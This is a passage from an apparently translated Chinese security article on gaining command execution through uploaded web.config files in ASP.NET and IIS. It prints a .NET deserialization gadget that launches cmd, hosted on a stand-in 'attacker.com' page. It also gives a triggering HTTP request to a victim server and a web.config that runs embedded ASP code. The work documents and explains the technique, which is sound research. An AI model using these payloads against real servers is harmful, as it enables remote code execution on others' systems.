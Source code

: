 以下JSON显示攻击者网站`（http://attacker.com/payload）`上应该接受POST请求的payload页面：

```plain
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```

上传`web.config`文件并在远程服务器上设置payload页面后，攻击者可以发送以下HTTP请求以在服务器上运行其代码和命令：

```plain
POST /testwebconfig/Authentication_JSON_AppService.axd/login HTTP/1.1
Host: victim.com
Content-Length: 72
Content-Type: application/json;charset=UTF-8

{"userName":"foo","password":"bar","createPersistentCookie":false}
```

应该注意的是，`Profile_JSON_AppService.axd`或`Role_JSON_AppService.axd`也可能在这里派上用场，但是需要在`web.config`中启用它们，并且需要调用合适的方法来触发反序列化。

### 2.使用子文件夹或虚拟目录中的web.config执行命令

虚拟目录中的`web.config`文件比应用程序文件夹根目录中的`web.config`更受限制。 可以滥用以执行`AspNetCoreModule，machineKey，buildProviders和httpHandler`等命令不能在子文件夹中的web.config中使用。

在我之前在2014年发表的相关博客文章中，我发现了一种方法，当允许在虚拟目录中使用`ISAPI`模块时，将`web.config`文件作为`ASP`文件运行。如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
```